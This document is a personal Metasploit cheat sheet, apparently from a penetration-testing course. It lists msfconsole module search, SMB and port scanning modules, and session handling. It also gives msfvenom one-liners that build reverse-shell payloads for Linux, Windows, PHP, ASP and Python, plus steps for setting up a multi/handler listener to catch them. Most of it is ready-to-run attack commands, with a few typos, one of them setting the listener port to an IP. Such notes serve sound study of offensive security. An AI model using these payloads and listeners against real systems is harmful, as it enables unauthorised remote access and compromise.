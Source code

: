 *unique commands from bash, no output redirection. Flow: sytem shell -> msfconsole prompt -> context prompt -> meterpreter prompt -> target system shell*

# msfconsole
`COMMAND -h`
`search` -> `use` -> `show options`
`set RHOSTS` `file:FILEPATH`, or network range with CIDR (10.10.151.0/24) or range (10.0.0.10 - 10.0.0.35)
`back`, `info`
`check` *supported by some modules, will check if target is vulnerable before running*
`exploit / run` `-z` to auto background the session
`background` or CTRL-Z
`sessions' -SESSION_NUM`

# Search
`search -S "*login" -t exploit smb rank:gte300` , search smb exploits, filter for keyword 'login' and with rank "normal" or above
#### Port scanning
`search portscan`
#### UDP service identification
`scanner/discovery/udp_sweep`
#### SMB Scans (Server Message Block - Network file sharing protocol)
`scanner/smb/smb_version`, `scanner/smb/smb_enumshares`

# Single vs. Staged
Stages: Downloaded by the stager after access is achieved on the target
`generic/shell_reverse_tcp` \- denotes an single payload
`windows/x64/shell/reverse_tcp` \- denotes a staged payload (stager + stage)

# Exploit 
`show options` -> `set PARAMTERS`
`show payloads` for more specific use cases
`sessions -i SESSION -c COMMAND`, run a command on a session without switching to it

# Msfvenom
`msfvenom -p PAYLOAD_PATH LHOST=X.X.X.X -f exe(FORMAT) -o payload.exe(OUTPUT)`
`msfvenom -l payloads`
`msfvenom --list formats`
*Encoders are ot intended to bypass security, but may help* `msfvenom -l encoders`
#### Handlers
`use exploit/multi/handler` -> `set payload php/reverse_php` *(optional) omit for meterpreter shell*-\> `set lhost MY_IP` -\> `set lport MY_IP` -\> `run` *infers listener running*
#### Payload Examples
*must have set up listener or `exploit/multi/handler` module set up/listening for reverse shells above*
- Linux (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- Windows: `msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp`
- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
- `msfvenom -l payloads | grep meterpreter`, shows reverse and bind meterpreter shells on different platforms

*Consider: target OS, programs on the system, available connection types*